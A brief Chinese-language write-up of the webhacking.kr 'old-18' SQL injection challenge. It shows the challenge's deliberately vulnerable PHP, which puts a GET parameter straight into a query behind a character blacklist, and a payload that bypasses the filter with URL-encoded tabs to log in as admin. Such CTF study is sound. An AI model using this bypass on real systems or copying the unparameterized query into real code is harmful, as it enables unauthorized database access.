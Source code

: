 # old-18_100

* 進到這一個網頁，就有一個非常大的提示 sql injection 以及 source code 
    ```php=
    if($_GET['no']){
      $db = dbconnect();
      if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
      $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

      if($result['id']=="guest") echo "hi guest";
      if($result['id']=="admin"){
        solve(18);
        echo "hi admin!";
      }
    }
    ```
    可以看到有過濾一些字元，如果 id = admin 就過了
* 這一題送是挺基本的 sql injection 的題目，因為前面的 id 已經固定為 guest，所以只要 or 後面加上 id = admin 就可以過了
* 不過要注意的是有過濾空白以及 || 
* 所以我最後的 payload 是 `?no=2%09or%09id=%27admin%27` 要注意的是，這是 url 後面的 param

